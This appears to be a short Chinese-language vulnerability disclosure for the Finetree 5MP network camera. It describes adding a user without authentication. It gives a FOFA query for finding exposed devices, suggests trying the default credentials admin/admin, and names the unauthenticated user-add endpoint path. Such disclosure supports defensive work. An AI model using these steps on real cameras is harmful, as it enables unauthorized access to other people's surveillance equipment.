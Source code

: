 ## Finetree-5MP-摄像机未授权任意用户添加

## 漏洞描述

Finetree-5MP-摄像机未授权任意用户添加

## 漏洞影响

> Finetree-5MP-摄像机

## FOFA

> app="Finetree-5MP-Network-Camera"

## 漏洞复现

登录界面如下：

![1](resource/Finetree-5MP-摄像机/1.png)

首先可以尝试一下弱口令admin/admin，很多都存在。

若不存在则访问漏洞URL进行用户添加：

```
/quicksetup/user_pop.php?method=add
```

![2](resource/Finetree-5MP-摄像机/2.png)